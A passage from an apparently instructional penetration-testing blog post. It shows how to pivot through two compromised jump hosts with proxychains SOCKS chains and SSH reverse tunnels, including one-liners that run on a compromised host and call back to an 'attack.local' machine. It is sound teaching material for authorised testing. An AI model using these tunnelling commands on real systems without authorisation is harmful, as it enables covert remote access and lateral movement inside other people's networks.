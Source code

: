 ```
tcp_read_time_out 15000
tcp_connect_time_out 8000
localnet 127.0.0.0/255.0.0.0
 
[ProxyList]
socks4  127.0.0.1 8888
socks4  127.0.0.1 9999
```
Notice the second line is port `9999`? That is because proxychains is first going to proxy through `127.0.0.1:8888` on our box to `jumpbox1.local`, then it is going to proxy through `127.0.0.1:9999` on `jumpbox1.local` to `jumpbox2.local`. Since we have `strict_chain` in our config, if one fails then `proxychains` won't continue. Not applicable here, but you could do `dynamic_chain` and if one failed, it would move on to try the next. In our use case, either `strict_chain` or `dynamic_chain` works fine.  

Now, try again...
```
they@attack.local:~$ proxychains4 -f ~/new-proxychains.conf curl http://destbox.local
```
And voila! We can talk to `destbox.local` through two tunnels/proxies.

## Demo


<video width="500" height="300" controls>
  <source type="video/mp4" src="/assets/videos/proxychains-demo.mp4">
</video>

## But wait, I can't access SSH on jumpbox1?
So you have a shell on a box, but can't hit ssh on it? Pretty common as web services may not just expose `ssh` to the world. `ssh` reverse tunnels to the rescue!  
You'll want to start an ssh server on your box, probably with `systemctl start sshd` and then I'd `cat ~/.ssh/*.pub` on `jumpbox1` and add that to whatever `ssh` user you plan to use (not a bad idea to create a separate user for this and [restrict accordingly to just tunnels](https://unix.stackexchange.com/a/14313), but you do you...)  
Once that is complete, from the jumpbox, you'll run
```
they@jumpbox1.local:~$ ssh -f -N -R 2222:127.0.0.1:22 <you>@attack.local
```
Now, hop back to your attack box and run `ss -tlpn | grep 2222` and you should see the new listening port on 127.0.0.1. Now, just create your initial SOCKS proxy through that new tunnel (or use it to ssh into wordpress directly from your machine)
```
they@attack.local:~$ ssh -f -N -D 127.0.0.1:8888 <jumpbox1-user>@127.0.0.1 -p 2222
````
Or, if you want a oneliner that can do it all from `jumpbox1.local`
```
they@jumpbox1.local:~$ ssh -f -R 2222:127.0.0.1:22 attack.local "ssh -f -N -D 8888 127.0.0.1 -p 2222"
```
And magic happens...

And from here, you'd do the rest as shown in [part 2 from above](#but-we-still-cant-talk-to-destboxlocal-).

## Demo Round 2

<video width="500" height="300" controls>
  <source type="video/mp4" src="/assets/videos/proxychains-reverse.mp4">
</video>
